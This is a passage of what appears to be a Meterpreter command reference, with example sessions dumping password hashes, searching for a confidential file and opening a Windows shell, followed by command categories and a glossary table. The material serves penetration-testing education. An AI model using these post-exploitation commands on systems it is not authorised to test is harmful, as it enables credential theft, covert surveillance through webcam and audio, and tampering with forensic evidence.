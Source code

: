 4. **Dumping Password Hashes:**

   ```plaintext
   meterpreter > hashdump
   Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
   ```

5. **Searching for Files:**

   ```plaintext
   meterpreter > search -f confidential.txt
   Found 1 result...
     c:\Users\Public\Documents\confidential.txt
   ```

6. **Launching a Shell:**

   ```plaintext
   meterpreter > shell
   Microsoft Windows [Version 10.0.19042.1052]
   C:\Windows\system32>
   ```

### Built-in Commands Categories

1. **Core Commands:** Basic commands for interacting with Meterpreter.
2. **File System Commands:** Commands for navigating and manipulating the file system.
3. **Networking Commands:** Commands for network-related tasks.
4. **System Commands:** Commands for gathering system information and performing system-level operations.
5. **User Interface Commands:** Commands for interacting with the graphical user interface.
6. **Webcam Commands:** Commands for accessing the webcam.
7. **Audio Output Commands:** Commands for capturing audio output.
8. **Elevate Commands:** Commands for privilege escalation.
9. **Password Database Commands:** Commands for accessing password databases.
10. **Timestomp Commands:** Commands for manipulating file timestamps.

## Glossary

Below is a comprehensive list of Meterpreter commands and their descriptions.

| Command                           | Description                                                              |
|-----------------------------------|--------------------------------------------------------------------------|
| **Core Commands**                 |                                                                          |
| `background`                      | Backgrounds the current session                                          |
| `exit`                            | Terminates the Meterpreter session                                       |
| `guid`                            | Gets the session GUID (Globally Unique Identifier)                       |
| `help`                            | Displays the help menu                                                   |
| `info`                            | Displays information about a Post module                                 |
| `irb`                             | Opens an interactive Ruby shell on the current session                   |
| `load`                            | Loads one or more Meterpreter extensions                                 |
| `migrate`                         | Allows you to migrate Meterpreter to another process                     |
| `run`                             | Executes a Meterpreter script or Post module                             |
| `sessions`                        | Quickly switch to another session                                        |
| **File System Commands**          |                                                                          |
| `cd`                              | Changes directory                                                       |
| `ls`                              | Lists files in the current directory (dir will also work)                |